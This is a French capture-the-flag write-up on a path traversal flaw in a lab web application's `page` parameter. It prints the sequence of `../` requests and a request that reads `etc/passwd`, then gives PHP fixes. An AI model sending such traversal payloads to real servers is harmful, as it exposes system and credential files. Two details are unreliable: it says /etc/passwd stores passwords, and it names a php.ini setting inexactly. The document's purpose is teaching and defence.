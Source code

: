 # Recherche

- Lorsque l'on se déplace **de pages en pages**, on peut voir dans l'URL: `$ip/?page=nom_de_la_page`

- On peut donc essayer de **changer la valeur** de `page` pour voir si on peut acceder à **d'autres pages**.

- Lorsque l'on remplace `page`, on obtient une **alerte** avec le message `Wtf ?`. Être **redirigé** en entrant une **valeur invalide** est logique mais l'alerte et le message sont [**suspects**](https://www.youtube.com/watch?v=McguBufbsQs).

# Exploit

- L'utilisation de `../../` après `page` dans l'URL est une technique connue sous le nom de **Directory Traversal** ou **Path Traversal**. Cette technique est utilisée pour **accéder** à des **fichiers et des répertoires** qui sont stockés en **dehors de la racine** du serveur web.

```javascript
$ip/?page=../
alerte : Wtf ?
$ip/?page=../../
alerte : Wrong..
$ip/?page=../../../
alerte : Nope..
$ip/?page=../../../../
alerte : Almost..
$ip/?page=../../../../../
alerte : Still nope..
$ip/?page=../../../../../../
alerte : Nope..
$ip/?page=../../../../../../../
alerte : You can DO it !!!  :]
```

- Un fois arriver à **7** retour en arrière, le message **ne change plus** en ajoutant des `../`, ce qui veut dire que nous somme à la **racine du serveur web**.

- On peut alors acceder au fichier `etc/passwd` qui contient les **logins** et **mots de passe** des utilisateurs du système.

```javascript
$ip/?page=../../../../../../../etc/passwd
alerte : Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 
```

# Fix

- Retirer les occurrences de `../` dans les requêtes **GET** afin d’éviter les attaques de type **Directory Traversal**.

- Assurer que toutes les **entrées utilisateur**, y compris les **valeurs des paramètres d'URL**, sont **validées avant d'être utilisées**. Les entrées devraient être **vérifiées** pour s'assurer qu'elles **respectent le format attendu**.

```PHP
$allowed_pages = ['home', 'contact', 'about'];
$page = $_GET['page'];
if (!in_array($page, $allowed_pages)) {
    die('Invalid page');
}
```

- **Encoder** les valeurs des paramètres d'URL pour éviter que des **caractères spéciaux** ne soient **interprétés** de manière **incorrecte**.

```PHP
$page = urlencode($_GET['page']);
```

- Désactiver `allow_url_open` et `allow_url_include` dans le fichier `php.ini` afin **d’empêcher** l'utilisation d'URL **non autorisées**.

